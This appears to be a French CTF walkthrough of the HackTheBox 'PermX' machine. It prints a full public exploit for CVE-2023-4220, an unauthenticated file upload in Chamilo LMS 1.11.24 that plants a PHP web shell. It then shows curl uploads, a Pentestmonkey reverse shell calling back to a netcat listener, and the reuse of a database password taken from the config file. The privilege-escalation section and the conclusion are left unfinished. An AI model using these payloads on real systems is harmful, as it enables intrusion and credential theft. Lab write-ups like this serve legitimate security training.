http://lms.permx.htb/whoisonline.php (CODE:200|SIZE:15471)
http://lms.permx.htb/wp-forum.phps (CODE:403|SIZE:278)
```

À la lecture des résultats de `mon-recoweb`, tu observes une application PHP bien structurée, exposant de nombreux répertoires fonctionnels (`/app`, `/main`, `/plugin`, `/vendor`, `/src`) et plusieurs fichiers accessibles directement depuis le web. Ces éléments indiquent un LMS complet, dans lequel l’exploitation va probablement nécessiter une analyse des mécanismes d’authentification et des fonctionnalités internes.

### Identification de la version de Chamilo

Tu poursuis ensuite l’énumération de manière manuelle en explorant l’interface via le navigateur, avec un focus sur `/documentation` et plus particulièrement la page `changelog.html`.







En consultant le changelog, tu confirmes que le LMS en place est ***Chamilo 1.11.24 (Beersel)***, ce qui te permet désormais de cibler des vulnérabilités connues associées à cette version.

### Recherche des vulnérabilités


```bash
┌──(kali㉿kali)-[/mnt/kvm-md0/HTB/permx]
└─$ searchsploit chamilo 1.11             
------------------------------------ ---------------------------------
 Exploit Title                      |  Path
------------------------------------ ---------------------------------
Chamilo LMS 1.11.14 - Account Takeo | php/webapps/50694.txt
Chamilo LMS 1.11.14 - Remote Code E | php/webapps/49867.py
Chamilo LMS 1.11.24 - Remote Code E | php/webapps/52083.py
Chamilo LMS 1.11.8 - 'firstname' Cr | php/webapps/45536.txt
Chamilo LMS 1.11.8 - Cross-Site Scr | php/webapps/45535.txt
------------------------------------ ---------------------------------
Shellcodes: No Results
```

**La recherche de vulnérabilités avec `searchsploit` met en évidence un exploit de *Remote Code Execution* spécifiquement applicable à *Chamilo 1.11.24*, confirmant l’existence d’une piste d’exploitation directe.**

### Analyse de l’exploit Chamilo 1.11.24

Après avoir identifié un exploit public correspondant à la version *Chamilo 1.11.24*, tu le télécharges avec `searchsploit -m` pour comprendre son fonctionnement avant de l’utiliser.

```bash
┌──(kali㉿kali)-[/mnt/kvm-md0/HTB/permx]
└─$ searchsploit -m php/webapps/52083.py  
  Exploit: Chamilo LMS 1.11.24 - Remote Code Execution (RCE)
      URL: https://www.exploit-db.com/exploits/52083
     Path: /usr/share/exploitdb/exploits/php/webapps/52083.py
    Codes: CVE-2023-4220
 Verified: False
File Type: Python script, ASCII text executable
Copied to: /mnt/kvm-md0/HTB/permx/52083.py
```

Tu commences par examiner le code de l’exploit que tu viens de télécharger, afin de comprendre précisément son fonctionnement et les mécanismes sur lesquels il s’appuie.


```python
# Exploit Title: Chamilo LMS 1.11.24 - Remote Code Execution (RCE)
# Exploit Author: 0x00-null - Mohamed Kamel BOUZEKRIA
# Exploit Date: September 3, 2024
# Vendor Homepage: https://chamilo.org/
# Software Link: https://chamilo.org/
# Version: 1.11.24 (Beersel)
# Tested Versions: 1.11.24 (Beersel) - August 31, 2023
# CVE ID: CVE-2023-4220
# Vulnerability Type: Remote Code Execution
# Description: Unauthenticated remote code execution in Chamilo LMS <= 1.11.24 due to an unrestricted file upload vulnerability.
# Proof of Concept: Yes
# Categories: Web Application, Remote Code Execution, File Upload
# CVSS Score: 8.1 (High)
# CVSS Vector: CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:H
# Notes: Ensure that the /main/inc/lib/javascript/bigupload/files/ directory exists and is writable.
# License: MIT License
# References:
# - CVE Details: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-4220
# - Exploit Documentation: https://github.com/0x00-null/Chamilo-CVE-2023-4220-RCE-Exploit
# - Vendor Advisory: https://chamilo.org/

import requests
import argparse
from urllib.parse import urljoin

def upload_shell(target_url, payload_name):
    upload_url = urljoin(target_url, "main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported")
    shell_path = f"/main/inc/lib/javascript/bigupload/files/{payload_name}"
    shell_url = urljoin(target_url, shell_path)

    # Payload containing the PHP web shell
    files = {'bigUploadFile': (payload_name, '<?php system($_GET["cmd"]); ?>', 'application/x-php')}

    # Upload the payload
    response = requests.post(upload_url, files=files)

    if response.status_code == 200:
        print("[+] File uploaded successfully!")
        print(f"[+] Access the shell at: {shell_url}?cmd=")
    else:
        print("[-] File upload failed.")

def execute_command(shell_url, cmd):
    # Execute the command
    response = requests.get(f"{shell_url}?cmd={cmd}")
    if response.status_code == 200:
        print(f"[+] Command Output:\n{response.text}")
    else:
        print(f"[-] Failed to execute command at {shell_url}")

if __name__ == "__main__":
    # Parse command-line arguments
    parser = argparse.ArgumentParser(description="CVE-2023-4220 Chamilo LMS Unauthenticated File Upload RCE Exploit")
    parser.add_argument('target_url', help="The target base URL of the Chamilo LMS instance (e.g., http://example.com/)")
    parser.add_argument('cmd', help="The command to execute on the remote server")
    parser.add_argument('--shell', default='rce.php', help="The name of the shell file to be uploaded (default: rce.php)")

    args = parser.parse_args()

    # Run the exploit with the provided arguments
    upload_shell(args.target_url, args.shell)

    # Form the shell URL to execute commands
    shell_url = urljoin(args.target_url, f"main/inc/lib/javascript/bigupload/files/{args.shell}")
    execute_command(shell_url, args.cmd)
```

En analysant l’exploit `52083.py`, tu commences par regarder la fonction `upload_shell`, qui envoie un fichier vers le serveur **Chamilo LMS 1.11.24**. Tu constates que l’application accepte des fichiers via une simple requête HTTP, sans aucune authentification.

Le fichier est transmis dans le champ `bigUploadFile`, puis automatiquement enregistré dans le répertoire `/main/inc/lib/javascript/bigupload/files/`. Comme ce dossier est accessible depuis le navigateur, le fichier PHP uploadé peut être appelé directement via HTTP et exécuté par le serveur. Cela permet d’exécuter des commandes sur la machine cible et de valider l’accès initial sous l’utilisateur `www-data`.

Cette analyse montre que l’exploit permet une exécution de commandes à distance sans authentification. Tu le démontres d’abord avec un Proof of Concept simple en exécutant la commande `id`, avant d’utiliser cette primitive pour obtenir un reverse shell et poursuivre l’exploitation.

### Proof of Concept — Validation de la RCE avec `id`

Pour valider concrètement l’exécution de code à distance, tu commences par créer un fichier PHP très simple contenant une seule commande système. L’objectif est uniquement de vérifier si le code PHP est bien exécuté côté serveur.

```bash
echo '<?php system("id"); ?>' > rce.php
```

Ce fichier contient une instruction PHP qui exécute la commande `id`, suffisante pour identifier l’utilisateur sous lequel le code s’exécute.

Tu uploades ensuite ce fichier à l’aide d’une requête `curl -F`, en utilisant le champ `bigUploadFile` attendu par l’application. L’option `@rce.php` indique à `curl` d’envoyer le contenu du fichier, comme lors d’un upload via un formulaire web.

```bash
curl -F 'bigUploadFile=@rce.php' \
'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```

```bash
The file has successfully been uploaded. 
```


Le message *“The file has successfully been uploaded.”* confirme que le serveur accepte l’upload sans authentification et sans filtrage sur l’extension du fichier.

Une fois l’upload effectué, tu accèdes directement au fichier PHP via son emplacement dans le répertoire d’upload, accessible depuis le navigateur.

```bash
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php'
```

```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


La réponse renvoyée par le serveur affiche le résultat de la commande `id`, ce qui confirme que le fichier PHP est bien interprété et exécuté côté serveur. La commande s’exécute sous l’utilisateur `www-data`, correspondant au compte du serveur web. Cette sortie valide l’exécution de commandes à distance sans authentification et fournit un point d’appui suffisant pour passer à l’obtention d’un reverse shell.


### Obtention du Reverse Shell

La RCE étant confirmée, l’étape suivante consiste à obtenir un accès interactif via un reverse shell. Comme **Chamilo** est une application écrite en **PHP**, il est logique d’utiliser un **payload PHP** pour rester dans le même contexte d’exécution.

Pour cela, tu choisis le reverse shell **Pentestmonkey**, un payload PHP classique et éprouvé en CTF, disponible sur *revshells.com* ou directement sur le dépôt officiel GitHub. Il suffit de le récupérer, 

```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```

puis d’adapter le début du fichier avec ton adresse IP tun0 et le port d’écoute avant de l’utiliser.

```php
ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```

Une fois le payload PHP prêt et adapté avec ton adresse IP et le port d’écoute, tu peux l’uploader de la même manière que lors du Proof of Concept. L’endpoint vulnérable accepte toujours les fichiers envoyés via le champ `bigUploadFile`, ce qui permet d’envoyer le reverse shell PHP sans authentification.

```bash
curl -F 'bigUploadFile=@php-reverse-shell.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```

Avant de déclencher l’exécution du reverse shell, tu dois mettre en place un **listener** sur ta machine afin de recevoir la connexion entrante depuis la cible. Pour cela, tu ouvres un terminal Kali et tu lances `netcat` en écoute sur le port configuré dans le payload PHP.

```
nc -lvnp 4444
```

Pour déclencher l’exécution du reverse shell, il suffit d’accéder au fichier PHP uploadé depuis son emplacement dans le répertoire d’upload. Cette action peut se faire directement via le navigateur ou à l’aide d’une requête `curl`, comme ci-dessous :

```bash
curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/php-reverse-shell.php'
```

Lorsque cette requête est exécutée, le serveur interprète le fichier PHP et initie la connexion inverse vers ta machine.

```bash
nc -lvnp 4444             
Listening on 0.0.0.0 4444
Connection received on 10.129.76.139 37198
Linux permx 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 09:55:11 up  1:24,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$  whoami
www-data
$
```


### Consolidation du Shell

Une fois le reverse shell obtenu, il est recommandé de le stabiliser afin de travailler plus confortablement. Cette étape permet d’obtenir un shell interactif plus fiable, avec une meilleure gestion du clavier et des commandes.

Pour cette phase, tu peux t’appuyer sur la recette dédiée :
 

Elle décrit un technique classique pour consolider un reverse shell et préparer la suite de l’exploitation dans de bonnes conditions.

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@permx:/$ 

www-data@permx:/$ ^Z
zsh: suspended  nc -lvnp 4444
                                                                                                                       
┌──(kali㉿kali)-[/mnt/kvm-md0/HTB/permx]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 4444
                               export TERM=xterm 
www-data@permx:/$ stty cols 132 rows 34
www-data@permx:/$ 
```

### Identification de l’utilisateur associé au flag `user.txt`

#### Lister les répertoires utilisateurs

La toute première chose consiste à regarder **quels comptes utilisateurs existent réellement sur la machine**.

```bash
ls -l /home
```

```bash
ls -l /home
total 4
drwxr-x--- 4 mtz mtz 4096 Jun  6  2024 mtz
```

#### Chercher directement le flag `user.txt`

Ensuite, tu vérifies si le flag est déjà présent dans l’un des répertoires listés :

```bash
find /home -name user.txt 2>/dev/null
```

La recherche du flag `user.txt` à l’aide de la commande `find /home -name user.txt` ne renvoie aucun résultat.
 En parallèle, la commande `ls -l /home` ne révèle qu’un seul répertoire utilisateur, appartenant à `mtz`.
 Dans le contexte d’un challenge CTF, cela indique que le flag est très probablement situé dans le répertoire personnel de cet utilisateur, mais qu’il n’est pas accessible avec tes droits actuels. L’objectif devient donc d’obtenir un accès au compte `mtz` afin de pouvoir lire le flag `user.txt`.

### Accès à l’utilisateur `mtz` via les identifiants Chamilo

Après avoir identifié `mtz` comme l’unique utilisateur du système et propriétaire probable du flag `user.txt`, tu peux exploiter les informations sensibles stockées dans la configuration de l’application Chamilo. L’objectif de cette étape est de récupérer un mot de passe réutilisable afin d’obtenir un accès au compte `mtz`.

La documentation officielle de Chamilo, accessible via `http://lms.permx.htb/documentation`, indique que les paramètres de configuration de l’application sont stockés dans le fichier `main/inc/conf/configuration.php`.





En consultant ce fichier, tu identifies les paramètres de connexion à la base de données, notamment l’utilisateur et le mot de passe utilisés par l’application.

```php
// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
// Enable access to database management for platform admins.
$_configuration['db_manager_enabled'] = false;
```

Le mot de passe de la base de données étant disponible en clair, tu testes sa réutilisation pour l’utilisateur `mtz` afin d’obtenir un accès à son compte.

```bash
su mtz
Password: 
mtz@permx:/$ whoami
mtz
mtz@permx:/$ id
uid=1000(mtz) gid=1000(mtz) groups=1000(mtz)
mtz@permx:/$ 
```


**Tu disposes désormais des identifiants `mtz:03F6lY3uXAP2bkW8`, ce qui te permet d’accéder au compte utilisateur et de poursuivre l’exploitation.**

### user.txt

L’accès au compte `mtz` est confirmé. Le flag `user.txt`, présent dans son répertoire personnel, est lisible et permet de valider la récupération du flag utilisateur.

```bash
mtz@permx:/$ pwd
/
mtz@permx:/$ ls -l ~
total 4
-rw-r----- 1 root mtz 33 Feb  9 08:31 user.txt
mtz@permx:/$ cat ~/user.txt
0a73xxxxxxxxxxxxxxxxxxxxxxxxf725
```


---

## Escalade de privilèges

Une fois connecté en tant que `mtz`, tu appliques la méthodologie décrite dans la recette
   .

### Sudo -l

La première étape consiste toujours à vérifier les droits `sudo` :

```bash
sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh

```


---

## Conclusion

- Récapitulatif de la chaîne d'attaque (du scan à root).
- Vulnérabilités exploitées & combinaisons.
- Conseils de mitigation et détection.
- Points d'apprentissage personnels.

---

## Pièces jointes (optionnel)

- Scripts, one-liners, captures, notes.  
- Arbo conseillée : `files/<nom_ctf>/…`